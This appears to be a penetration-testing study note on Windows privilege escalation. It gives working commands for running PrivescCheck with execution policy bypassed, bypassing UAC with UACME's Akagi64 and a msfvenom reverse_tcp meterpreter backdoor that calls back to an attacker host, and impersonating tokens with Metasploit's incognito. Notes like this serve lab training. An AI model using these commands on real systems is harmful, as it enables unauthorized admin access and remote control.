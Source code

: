 # 4 - Privilege Escalation

## Windows

Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM

### Automation script

* https://github.com/itm4n/PrivescCheck : useful for gather information
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

### UAC Bypass

* User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
* Prerequisites:
  1. User must be a member of the Administrators group.
  2. `net localgroup administrators`
  3. Full interactive shell with the victim (a common nc.exe shell is not enough).
     * You can use meterpreter
* Metasploit
  * search module bypassuac ...
* UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     * `ps` to show process
     * (ex. `migrate <PID explorer.exe>`)
  2. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  4. Use exploit/multi/handler to start a listener
  5. `Akagi64.exe 23 <payload_full_path>`
     * **NOTE FULL PATH**
  6. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

### Impersonate Tokens

* With msfconsole: `load incognito`
* `list_tokens -u`
  * ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
* `impersonate_token <token_name>`
  * `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
*   You may need to migrate process to a \<user> process
